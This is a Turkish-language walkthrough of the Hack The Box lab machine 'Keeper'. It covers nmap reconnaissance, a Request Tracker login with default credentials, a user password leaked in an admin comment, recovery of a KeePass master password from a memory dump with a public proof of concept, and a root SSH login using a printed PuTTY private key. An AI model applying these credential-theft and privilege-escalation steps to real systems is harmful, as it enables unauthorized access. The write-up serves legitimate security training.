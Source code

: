 # Keeper

## User Flag

!!! info "Target IP Address"

    10.10.11.227

Keşfe başlamak için ilk olarak aşağıdaki komut ile bir Nmap taraması gerçekleştirdim:

```bash
sudo nmap 10.10.11.227 -sS -sV -sC -oN nmap
```

```text title="Output" hl_lines="6 10"
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-01 03:21 +03
Nmap scan report for 10.10.11.227
Host is up (0.86s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 986.28 seconds
```

Tarama sonuçlarında 80 numaralı port açık olarak gözükmektedir. Bu bilgiden hareketle, siteyi bir web tarayıcısında ziyaret etmeyi düşündüm. URL kısmına IP adresini girerek siteye gittiğimde karşıma çıkan sayfada aşağıdaki mesaj ile karşılaştım:

```text
To raise an IT support ticket, please visit tickets.keeper.htb/rt/
```

Ardından aşağıdaki adresleri `/etc/hosts` dosyasına ekledim:

```bash
echo -e "10.10.11.227 keeper.htb\n10.10.11.227 tickets.keeper.htb" | sudo tee -a /etc/hosts
```

Mesajda bahsedilen adrese gittiğimde bir giriş sayfasıyla karşılaştım:

![](../assets/images/keeper/rt-login-page.png)

Kısa bir Google aramasından sonra Request Tracker [wiki](https://rt-wiki.bestpractical.com/wiki/ManualBasicAdministration#CREATE_USERS) adresinde, sisteme girişte kullanılan varsayılan kullanıcı adı (`root`) ve varsayılan parola bilgisini (`password`) öğrendim ve bu bilgileri kullanarak giriş gerçekleştirebildim:

![](../assets/images/keeper/rt-at-a-glance.png)

Bu ekranda `Search` --> `Tickets` --> `Recently Viewed` sekmesinde `#300000: Issue with Keepass Client on Windows` isimli bir Ticket ile karşılaştım. Bu Ticket içeriğine baktığımda, Lise Nørgaard (`lnorgaard`) isimli bir kullanıcının KeePass yazılımı hakkındaki bir e-posta konuşmasına rastladım:

![](../assets/images/keeper/ticket-300000.png)

Aynı ekranda `Admin` --> `Users` sekmesinde Lise Nørgaard kullanıcısının bilgilerine baktığımda, yorumlar kısmında kullanıcının parola bilgisini öğrendim:

![](../assets/images/keeper/user-password.png)

Elde ettiğim kullanıcı adı (`lnorgaard`) ve parola bilgisi (`Welcome2023!`) ile bir SSH bağlantısı gerçekleştirdim:

```bash
ssh lnorgaard@10.10.11.227
```

Bağlantı kurulduktan sonra aşağıdaki komut ile kullanıcı bayrağını elde edebildim:

```bash
cat ~/user.txt
```

## Root Flag

SSH bağlantısı gerçekleştirdiğim kullanıcının ev dizininde `ls` komutunu çalıştırdığımda, bayrak dosyası dışında bir ZIP dosyası ile karşılaştım:

```bash
ls
```

```text title="Output"
RT30000.zip  user.txt
```

ZIP dosyasını arşivden çıkardığımda 2 adet dosya ile daha karşılaştım (bu dosyaları sonrasında Python HTTP sunucusu yardımıyla kendi sistemime indirdim):

```bash
unzip RT30000.zip && ls
```

```text title="Output"
KeePassDumpFull.dmp  RT30000.zip  passcodes.kdbx  user.txt
```

Bu dosyalardan `passcodes.kdbx` dosyasının tipini kontrol ettiğimde bu dosyanın, KeePass 2.x yazılımına ait bir veri tabanı dosyası olduğunu öğrendim:

```bash
file passcodes.kdbx
```

```text title="Output"
passcodes.kdbx: Keepass password database 2.x KDB
```

Kısa bir Google aramasından sonra, KeePass Dump dosyasından ana parolayı elde etmeyi sağlayan bir [PoC](https://github.com/vdohney/keepass-password-dumper) ile karşılaştım.

Bu kodu kullanabilmek için `dotnet` aracı da gerekiyordu, bu sebeple [bu](https://dotnet.microsoft.com/en-us/download/dotnet/thank-you/sdk-7.0.405-linux-x64-binaries) siteden yardım alarak ilk önce bu aracın kurulumunu gerçekleştirdim.

Ardından PoC kodunu repodan bilgisayarıma klonlayıp, klonlanan dizine geçiş yaptım (gerekli):

```bash
git clone https://github.com/vdohney/keepass-password-dumper && cd keepass-password-dumper
```

Aşağıdaki komut ile Dump dosyasından ana parolayı elde etmeyi denedim:

```bash
~/dotnet run ~/KeePassDumpFull.dmp
```

```text title="Output"
...SNIP...

Password candidates (character positions):
Unknown characters are displayed as "●"
1.: ●
2.: ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.: d,
4.: g,
5.: r,
6.: ø,
7.: d,
8.:  ,
9.: m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

Çıktının en sonunda `Combined` olarak verilen karakterler (`●` + `süslü parantezler içindeki karakterlerden bir karakter` + `dgrød med fløde`) parola olmalıydı. Fakat en başta bilinmeyen bir karakter (`●`) ve süslü parantezler içindeki karakterlerden bir karakter tam olarak bilinmediği için parola bilgisi eksikti.

Daha öncesinde kullanıcı bilgilerine bakarken, kullanıcının Danimarkalı olduğunu öğrenmiştim:

![](../assets/images/keeper/danish-user.png)

Bu ipucundan faydalanarak bulunan karakterleri Google üzerinde arattığımda, Google bana `dgrød med fløde` --> `rødgrød med fløde` önerisinde bulundu.

Bunun ardından doğru parolayı bulmuş olabileceğimi düşünerek keşfe devam ettim.

Yine kısa bir Google aramasından sonra [https://app.keeweb.info](https://app.keeweb.info) sitesi ile karşılaştım. Bu siteye `passcodes.kdbx` dosyasını yükleyip parola olarak `rødgrød med fløde` bilgisini verdiğimde, veri tabanını başarılı bir şekilde deşifre edebildim:

```text title="Output"
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

Bu çıktıyı `key.ppk` isimli bir dosyaya kaydettim ve dosyanın izinlerini güncelledim:

```bash
chmod 0644 ~/key.ppk
```

Ardından Linux için PuTTY aracını yükledim:

```bash
sudo apt update && sudo apt install putty-tools
```

Bunun ardından aşağıdaki komut yardımıyla dosya formatını PuTTY --> OpenSSH olarak değiştirdim:

```bash
puttygen ~/key.ppk -O private-openssh -o ~/key
```

Elde edilen dosyayı kullanarak `root` kullanıcısı için bir SSH bağlantısı gerçekleştirdim:

```bash
ssh root@10.10.11.227 -i ~/key
```

Bağlantı kurulduktan sonra aşağıdaki komut ile `root` bayrağını elde edebildim:

```bash
cat ~/root.txt
```

